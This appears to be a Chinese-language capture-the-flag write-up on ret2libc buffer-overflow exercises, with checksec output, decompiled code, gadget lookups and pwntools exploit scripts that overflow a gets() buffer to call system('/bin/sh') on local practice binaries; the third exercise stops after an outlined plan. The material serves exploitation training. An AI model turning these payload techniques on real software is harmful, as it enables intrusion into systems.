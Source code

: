 # PWN Exercise - ret2libc

[toc]

## ret2libc1

checksec
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
伪代码：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```
### PWN
程序有system函数，有/bin/sh字符串。   

0x08048720 : /bin/sh
```
$ ROPgadget --binary ret2libc1 --string "/bin/sh"
Strings information
============================================================
0x08048720 : /bin/sh
```
0x08048460  system@plt
```
pwndbg> info function
All defined functions:

File ret2libc1.c:
19:	int main(void);
8:	void secure(void);

Non-debugging symbols:
0x080483fc  _init
0x08048430  gets@plt
0x08048440  time@plt
0x08048450  puts@plt
0x08048460  system@plt
0x08048470  __gmon_start__@plt
0x08048480  srand@plt
0x08048490  __libc_start_main@plt
0x080484a0  setvbuf@plt
0x080484b0  rand@plt
0x080484c0  __isoc99_scanf@plt
0x080484d0  _start
0x08048500  __x86.get_pc_thunk.bx
0x08048510  deregister_tm_clones
0x08048540  register_tm_clones
0x08048580  __do_global_dtors_aux
0x080485a0  frame_dummy
0x08048690  __libc_csu_init
0x08048700  __libc_csu_fini
0x08048704  _fini
```
EXP:
```python
from pwn import *

elf = ELF('ret2libc1')
io = process(elf.path)
#gdb.attach(io,"b * 0x08048689")
system_addr = 0x08048460
bin_sh_addr = 0x08048720
payload = b'a'*0x6c +b'bbbb' +p32(system_addr) + b'cccc' + p32(bin_sh_addr)
io.sendline(payload)
io.interactive()
```

## ret2libc2

本题上一次基本一致，就是搜索不到`/bin/sh`字符串。   
所以需要办法把字符串写到变量中调用，可以查看bss段，全局变量。   
ida可以通过快捷键g，跳转到.bss。   
题预设了一个buf2全局变量，可以利用。
```
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)
.bss:0804A080 _bss            ends
.bss:0804A080
```

### PWN

EXP:
```python
from pwn import *

elf = ELF('ret2libc2')
io = process(elf.path)
gets_addr = 0x08048460
system_addr = 0x08048490
buf2_addr = 0x0804A080
pop_ebx = 0x0804843d
#gdb.attach(io,"b * 0x080486bf")
#payload = flat(['a' * 112, gets_addr, pop_ebx, buf2_addr, system_addr, 'bbbb', buf2_addr])
payload = flat(['a' * 112, gets_addr, system_addr, buf2_addr, buf2_addr])
io.sendline(payload)
io.sendline('/bin/sh')
io.interactive()
```


## ret2libc3



伪代码：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```
在ret2libc2的基础上，system()函数也被去除掉了。   
就需要利用libc中的system(),和`/bin/sh`。   
思路：   
1. 泄露地址，计算相对地址。   
由于 libc 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址。
2. 计算system(),`/bin/sh`绝对地址
3. 执行system()

### 准备
https://github.com/lieanu/LibcSearcher

### PWN